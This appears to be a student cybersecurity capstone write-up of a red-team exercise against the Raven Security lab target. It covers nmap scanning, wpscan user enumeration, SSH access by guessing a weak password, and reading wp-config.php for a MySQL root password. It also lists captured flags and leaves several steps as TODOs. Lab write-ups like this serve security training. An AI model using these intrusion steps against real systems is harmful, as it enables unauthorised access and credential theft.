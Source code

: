 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Step 1: Scan the network to identify the IP addresses of Target 1

`nmap -sP 192.168.1.1-255`

[nmap IP Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_IPs_Target1.PNG "nmap IP Scan results")

`nmap -sV 192.168.1.110`

Step 2: Document all exposed ports and services.

[nmap Port Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_Ports_Target1.PNG "nmap Port Scan results")

Due to `port 80` being open, we went directly to the website via p`ort 80` `192.168.1.110:80` and discovered that Raven Security is a WordPress Commenter, giving us the clue to run the wordpress scan. 

[WordPress Screenshot](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/wordpress_port80_raven_security.PNG")

This scan identifies the services below as potential points of entry:
- Target 1
  - `port 22` - SSH
  - `port 80` - HTTP

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

Step 3: Enumerate the WordPress site. 

- `wpscan –-url http://192.168.1.110/wordpress -eu`

- Users Identified
- steven
- michael
- [Enumeration Output](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/Kali_Users_Identified.PNG "Enumeration Output")

Step 4: Use SSH to gain a user shell

- `ssh michael@192.168.1.110`
- `Guess-Enter password: michael`  → success
- [Michael login results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_michael.PNG "Michael login results")


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Flag #1 {b9bbcb33e11b80be759c4e844862482d}
    - `grep -RE flag html`
    - [Flag 1](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag1.PNG "Flag 1")


  - Flag #2 {fc3fd58dcdad9ab23faca6e9a36e581c} 
    - `cd /var/www`
    - `cat flag2.txt`
    - [Flag 2](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag2.PNG "Flag 2")

Step 5: Find the MySQL database password.

- `cat /var/www/html/wordpress/wp-config.php`
- Password: R@v3nSecurity
- [MySQL DB Password](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_DB_password.PNG "MySQL DB Password")

Step 6: Use the credentials to log into MySQL and dump WordPress user password hashes.
- michael@target1:~$ `mysql -u root -p`
- Enter password: `R@v3nSecurity`
- [MySQL Login](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_login.PNG "MySQL Login")

- `mysql> show databases;`
- [mysql show databases](mysql "mysql show databases")
- `mysql> use wordpress;`
- [mysql wordpress DB](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wordpress_db.PNG "mysql wordpress DB")


- Flag #3

    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Identify the command used_

      - [Flag 3](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wp_posts_flags.PNG "Flag 3")
      
  - Flag #4

    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Identify the command used_

      - [Flag 4](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "Flag 4")
